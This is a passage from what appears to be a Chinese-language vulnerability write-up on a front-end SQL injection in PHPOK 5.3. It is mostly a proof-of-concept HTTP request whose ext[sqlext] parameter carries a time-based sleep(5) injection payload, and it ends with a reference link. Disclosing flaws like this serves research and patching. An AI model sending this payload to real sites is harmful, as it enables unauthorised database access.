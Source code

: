 ![](resource/PHPOK5.3前台注入/media/rId30.png)

POC：

    GET /api.php?c=index&f=phpok&token=6318fdtC3WRpOzYNzKVNw78PFa9OhFea5pp3/uZ4U3T67a/F47WhJ0lr856V7yomOcG0u8/UJpIwKKOwJAKspTSWN+5ljVNWR5978g7HHoG14M&ext[sqlext]=sleep(5)%23&ext[site]=1 HTTP/1.1
    Host: 0-sec.org
    Pragma: no-cache
    Cache-Control: no-cache
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; U; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.86 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
    Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4
    Connection: close

四、参考链接
------------

> <https://xz.aliyun.com/t/6830>
